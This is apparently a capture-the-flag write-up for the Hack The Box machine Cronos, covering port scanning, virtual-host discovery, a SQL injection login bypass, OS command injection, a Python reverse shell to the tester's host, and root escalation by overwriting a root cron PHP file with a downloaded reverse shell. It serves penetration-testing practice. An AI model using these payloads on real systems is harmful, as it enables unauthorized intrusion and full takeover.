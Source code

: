# Cronos

## Nmap

{% code overflow="wrap" %}
```bash
# Nmap 7.92 scan initiated Wed Oct  5 16:49:45 2022 as: nmap -Pn -p 22,53,80 -sCV -O -oN script-scan.txt -v cronos.htb
Nmap scan report for cronos.htb (10.10.10.13)
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-title: Cronos
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.000 days (since Wed Oct  5 16:49:41 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  5 16:50:04 2022 -- 1 IP address (1 host up) scanned in 18.38 seconds
```
{% endcode %}

## HTTP

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

### Webfuzz

{% code overflow="wrap" %}
```
 kali@kali  ~/Documents/htb/cronos  gobuster vhost -u http://cronos.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 100 -o webfuzz.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://cronos.htb
[+] Method:       GET
[+] Threads:      100
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/10/07 16:35:44 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.cronos.htb (Status: 200) [Size: 1547]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### SQLi

{% embed url="https://book.hacktricks.xyz/pentesting-web/login-bypass#sql-injection-authentication-bypass" %}

We use the following payload for authentication bypass

```sql
admin' or '
```

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We will now test for OS Command Injection

```
8.8.8.8 & whoami
```

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

We can see we are the `www-data` user, so next we'll try to get a reverse shell

## Foothold

Set up your listener

```
rlwrap -cAr nc -lnvp 443
```

Enter this and click `execute`

{% code overflow="wrap" %}
```
8.8.8.8 & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Check your listener and you should have a shell

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Checking for scheduled tasks, we see there's a file called `artisan` that is running as a cron job with root privileges every minute of every hour of every month of every day of the week. We'll replace the contents of the file with a php reverse shell.

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

I used revshells.com to generate a reverse shell and pasted it into a file called `privesc.php`

{% embed url="https://www.revshells.com/" %}

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Using a python web server, I download the file onto the victim machine and changed the name to match the filename in the cron job

```
wget 10.10.14.19/privesc.php
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Now set up a new listener (in my case, I will listen on port 445) and in just a few seconds, you should receive another shell, but this time as root

<figure><img src="../../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>
